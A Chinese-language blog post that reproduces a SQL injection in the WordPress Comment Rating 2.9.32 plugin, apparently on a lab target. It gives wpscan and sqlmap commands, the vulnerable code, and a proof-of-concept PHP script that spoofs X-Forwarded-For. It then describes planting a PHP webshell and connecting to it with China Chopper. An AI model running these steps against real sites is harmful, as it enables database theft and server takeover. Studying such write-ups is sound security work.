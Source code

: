 ```yaml
---
title: WordPress插件注入漏洞
date: 2019-03-05 02:40:28
categories: 中间件漏洞
tags: 漏洞复现

---
```

<blockquote class="blockquote-center">最具挑战性的挑战莫过于提升自我。——迈克尔·F·斯特利</blockquote>

<div align="middle"><iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=526668900&auto=1&height=66"></iframe></div>



## 漏洞名称：

WordPress Plugin Comment Rating 2.9.32 SQL注入漏洞



## 漏洞描述：

wordpress中的comment-rating2.9.32插件中的ck-processkarma.php文件存在HTTP_X_FORWARDED_FOR header inject  Vulnerability



## 漏洞等级

高级



## 漏洞检测方法：

wpscan扫描



## 漏洞利用方法：

1. 浏览网页，发现是WordPress网站


![](http://ww1.sinaimg.cn/large/0078beR7ly1g0s7xhpvnsj30xm0dfjrg.jpg)

2.使用wpscan进行扫描

```
wpscan -u "http://219.153.49.228:48606/" --enumerate vp
```

得出comment-rating插件存在SQL注入漏洞

```
+] Name: comment-rating - v2.9.32
 |  Location: http://219.153.49.228:48606/wp-content/plugins/comment-rating/
 |  Readme: http://219.153.49.228:48606/wp-content/plugins/comment-rating/readme.txt
[!] Directory listing is enabled: http://219.153.49.228:48606/wp-content/plugins/comment-rating/

[!] Title: Comment Rating 2.9.32 - Security Bypass Weakness & SQL Injection
    Reference: https://wpvulndb.com/vulnerabilities/6428
    Reference: http://packetstormsecurity.com/files/120569/
    Reference: https://secunia.com/advisories/52348/
    Reference: https://www.exploit-db.com/exploits/24552/
```

3.查看 https://www.exploit-db.com/exploits/24552/， 根据其介绍的知是HTTP_X_FORWARDED_FOR header注入漏洞。

```
Vulnerable Code: /wp-content/plugins/comment-rating/ck-processkarma.php

First take the IP from HTTP_X_FORWARDED_FOR header.
-----------------------------------------------------------------------
48         $ip = getenv("HTTP_X_FORWARDED_FOR") ? getenv("HTTP_X_FORWARDED_FOR") : getenv("REMOTE_ADDR");
49         if(strstr($row['ck_ips'], $ip)) {
50            // die('error|You have already voted on this item!'); 
51            // Just don't count duplicated votes
52            $duplicated = 1;
53            $ck_ips = $row['ck_ips'];
54         }

Later made a UPDATE without filter the input.
------------------------------------------------------------------------
77         $query = "UPDATE `$table_name` SET ck_rating_$direction = '$rating', ck_ips = '" . $ck_ips  . "' WHERE ck_comment_id = $k_id";


So let's take a look in the DB

mysql> select * from wp_comment_rating;
+---------------+----------------+--------------+----------------+
| ck_comment_id | ck_ips         | ck_rating_up | ck_rating_down |
+---------------+----------------+--------------+----------------+
|             2 | ,20.209.10.130 |            1 |              0 |
|             3 |                |            0 |              0 |
+---------------+----------------+--------------+----------------+
2 rows in set (0.00 sec)
```

4.EDB提供的POC，但我本地尝试运行这个POC并未成功，所以构造语句，使用sqlmap进行查询

```
<?PHP

define('HOST','http://localhost/wordpress/');
define('IDCOMMENT',2);
$url=parse_url(HOST);
define('URL',$url['path'].'wp-content/plugins/comment-rating/ck-processkarma.php?id='.IDCOMMENT.'&action=add&path=a&imgIndex=1_14_');
for($i=0;$i<1;$i++) lvlup();

function lvlup(){
	global $url;
	$header = "GET ".URL." HTTP/1.1 \r\n";
	$header.= "Host: ".$url['host']."\r\n";
	$header.= "Accept-Encoding: gzip, deflate \r\n";
	$header.= "X-Forwarded-For: ".long2ip(rand(0, "4294967295"))."\r\n";
	$header.= "Connection: close \r\n\r\n";
	$socket  = socket_create(AF_INET, SOCK_STREAM,  SOL_TCP);
	socket_connect($socket,$url['host'], 80);
	socket_write($socket, $header);
	socket_close($socket);
}

?>
```

5.查询语句为：

```
sqlmap "http://219.153.49.228:40602/wp-content/plugins/comment-rating/ck-processkarma.php?id=1&action=add&path=a&imgIndex=1_14_"  -f 
```

然后查出库名，表名，列名，字段名，这个很简单，我就不多说啦。

6，然后登陆账号，在插件中添加PHP一句话木马，记得开启插件功能

![](http://ww1.sinaimg.cn/large/0078beR7ly1g0s8b9y4qyj30tk0fcdgw.jpg)

7，菜刀连接木马即可获取shell.



## 漏洞修复方案：

及时更新插件